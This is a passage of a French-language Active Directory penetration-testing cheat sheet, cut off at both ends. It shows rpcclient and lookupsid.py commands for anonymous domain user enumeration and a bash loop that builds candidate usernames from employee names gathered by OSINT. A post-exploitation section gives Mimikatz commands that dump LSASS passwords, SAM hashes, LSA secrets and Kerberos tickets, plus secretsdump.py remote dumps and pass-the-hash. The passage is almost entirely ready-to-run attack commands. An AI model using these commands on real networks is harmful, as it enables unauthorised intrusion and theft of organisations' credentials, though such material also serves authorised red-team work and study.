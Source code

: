     # Session anonyme (si autorisée) ou avec credentials
    rpcclient -U "" -N <IP_DC_OU_CIBLE> # Anonyme
    rpcclient -U "DOMAINE\user%password" <IP_DC_OU_CIBLE>

    rpcclient $> enumdomusers        # Lister les utilisateurs du domaine
    rpcclient $> enumdomgroups       # Lister les groupes du domaine
    rpcclient $> queryuser <RID>     # Infos sur un utilisateur par RID
    rpcclient $> querygroup <RID>    # Infos sur un groupe par RID
    lookupsid.py 'anonymous:<MOT_DE_PASSE_VIDE_OU_QUELCONQUE>@<IP_CIBLE_OU_DC>' # Énumérer via SID Lookup
    ```

### 4. Vérification des Conventions de Nommage (pour générer des listes d'utilisateurs)
*   **Objectif :** Si des noms d'employés sont connus (OSINT), générer des noms d'utilisateurs potentiels.
*   **Exemple (Bash) :**
    ```bash
    # names.txt contient une liste de "prénom nom"
    while IFS= read -r fullname; do
      firstname=$(echo "$fullname" | awk '{print tolower($1)}')
      lastname=$(echo "$fullname" | awk '{print tolower($2)}')
      echo "${firstname}.${lastname}" # prenom.nom
      echo "${firstname:0:1}${lastname}" # pnom
      echo "${firstname}${lastname:0:1}" # prenoml
    done < names.txt > potential_users.txt
    ```

## III. Scénario Post-Exploitation (Accès Privilégié sur une Machine ou au Domaine)

### 1. Extraction de Credentials
*   **Objectif :** Obtenir des identifiants en clair, hashes, ou tickets Kerberos.
*   **Outils :** Mimikatz, secretsdump.py, Rubeus
*   **Commandes Clés :**
    *   **Mimikatz (Windows, nécessite des privilèges élevés) :**
        ```powershell
        # Charger Mimikatz
        Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"' # Credentials en mémoire (LSASS)
        Invoke-Mimikatz -Command '"lsadump::sam"' # Hashes SAM locaux (nécessite accès SYSTEM)
        Invoke-Mimikatz -Command '"lsadump::lsa /patch"' # Secrets LSA (comptes de service, etc.)
        Invoke-Mimikatz -Command '"sekurlsa::tickets /export"' # Exporter les tickets Kerberos en mémoire
        ```
    *   **secretsdump.py (Linux, accès distant ou hives exportées) :**
        ```bash
        # Dump distant (nécessite admin local sur la cible)
        secretsdump.py <DOMAINE>/<USER>:<PASSWORD>@<IP_CIBLE>
        secretsdump.py -hashes <LM_HASH>:<NT_HASH> <DOMAINE>/<USER>@<IP_CIBLE> # Pass-the-Hash
